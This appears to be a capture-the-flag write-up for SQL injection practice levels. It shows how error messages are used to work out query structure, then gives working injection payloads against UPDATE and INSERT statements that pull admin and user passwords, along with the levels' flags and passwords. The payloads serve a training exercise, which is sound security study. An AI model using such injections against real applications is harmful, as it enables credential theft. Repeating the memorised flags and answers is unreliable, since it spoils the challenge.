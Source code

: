Target: Get the password of the admin.

```python
Using ' in the Email generates
#You have an error in your SQL syntax; 
#check the manual that corresponds to your 
#MySQL server version for the right syntax 
#to use near '12345', age = '25' WHERE 
#id = 1' at line 3 Username: Admin

#using ' in the ICQ generates no error 
#Since the query is near the icq lets insert icq 
hans@localhost', icq='

#generates no error
#lets now inject name between the two as
hans@localhost',name=password, icq='

flag: 9ea04c5d4f90dae92c396cf7a6787715
password: network_pancakes_milk_and_wine
```

## Level 9

Target: Get the username and password of any user. Table name: level9_usersThis is not a blind injection. There is a way to get some output back:)

```sql
#Insert ' in each column
# error obtained as ')' when ' entered in the last column
hypothesis: insert into <?>(name,title,...<?>) values('col1',...,'col2')
#using ')# does not generates the error
#lets inject as
"'), ('1')#" #generates error
"'), ('1','2','3')#" shows 1,2,3 error
#replace 1 2 3 with
'), ((select username from level9_users limit 1),\\
(select password from level9_users limit 1), '3') #

flag: 84ec870f1ac294508400e30d8a26a679
password: whatever_just_a_fresh_password
```